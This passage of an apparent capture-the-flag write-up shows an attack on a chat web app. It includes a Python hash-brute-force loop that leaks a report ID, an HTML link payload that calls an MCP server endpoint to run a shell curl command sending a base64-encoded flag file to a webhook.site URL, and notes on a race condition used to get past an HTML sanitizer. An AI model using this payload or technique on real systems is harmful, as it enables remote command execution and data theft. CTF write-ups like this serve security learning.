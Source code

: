 ```python:b.py
    s = f"&lt;style&gt;                                &lt;/div&gt;                            &lt;/div&gt;                        &lt;/div&gt;                    &lt;/div&gt;                &lt;/div&gt;                            &lt;div class=\"flex justify-start\"&gt;                    &lt;div class=\"flex max-w-[80%] flex-row items-start space-x-3\"&gt;                        &lt;div class=\"w-8 h-8 rounded-full flex items-center justify-center bg-claude-orange mr-3\"&gt;                            &lt;i class=\"fas fa-robot text-white text-sm\"&gt;&lt;/i&gt;                        &lt;/div&gt;                        &lt;div class=\"flex-1\"&gt;                            &lt;div class=\"bg-white border border-gray-200 rounded-2xl rounded-tl-md px-4 py-3\"&gt;                                &lt;div class=\"prose prose-sm max-w-none text-gray-800\"&gt;                                    &lt;div class=\"text-red-500\"&gt;                                            &lt;p&gt;                                                &lt;strong&gt;An error occurred.&lt;/strong&gt;                                                &lt;br&gt;                                                Claude API Error: HTTP 401 - invalid x-api-key                                            &lt;/p&gt;                                            &lt;br&gt;                                                                                        &lt;button id=\"checkReportBtn-{rid}\" class=\"bg-red-500 text-white px-4 py-2 rounded-md\"&gt;                                                Check Report {rid}                                            &lt;/button&gt;                                            &lt;br&gt;&lt;br&gt;                                            &lt;p class=\"text-sm\"&gt;                                                &lt;strong&gt;'You cannot send new messages until you report.'&lt;/strong&gt;                                            &lt;/p&gt;                                            &lt;/div&gt;                                &lt;/div&gt;                            &lt;/div&gt;                        &lt;/div&gt;                    &lt;/div&gt;                &lt;/div&gt;            &lt;/style&gt;"
    if i % 1_000_000 == 0:
        print(i, round(i * 100 / (16 ** 7), 2))
    if hashlib.sha256(s.encode()).hexdigest() == 'fb9bd397cf361cb6ae9a79f60682980e0feb426cc7fdc5ce9366528cec8db942':
        print(rid)
        break
```

```plaintext:output
...
34b3da7
```

With that, we've managed to leak report_id. Create a second message in the same session with a link to the RCE endpoint, with the desired command:

```html
<a id="checkReportBtn-34b3da7" href="http://mcp-server:6277/sse?transportType=stdio&command=sh&args=-c%20%22curl%20https%3A//webhook.site/2c7d64f3-cd0a-42a5-8b32-b95e3f6b19aa%3Ff%3D%60cat%20/app/flag.txt%20%7C%20base64%20-w%200%60%22" />
```

Thereafter, I got the flag locally.

# Solve script

On remote, threading+requests wasn't winning the race condition to bypass `Sanitizer` (I don't know why) but I got it working with `grequests`. Since it only worked half the time, I split my solve into two scripts. After running the first script I would manually check if the payload was successfully inserted, and once it worked I send the report. Then I copied the `message_id` and ran my hash cracker (I should probably have preemptively generated a mapping of all possible hashes beforehand, since I had to retry my exploit multiple times and this part took quite long to run). Once I got the correct `report_id`, I copied it over to the second script which inserts the malicious link.
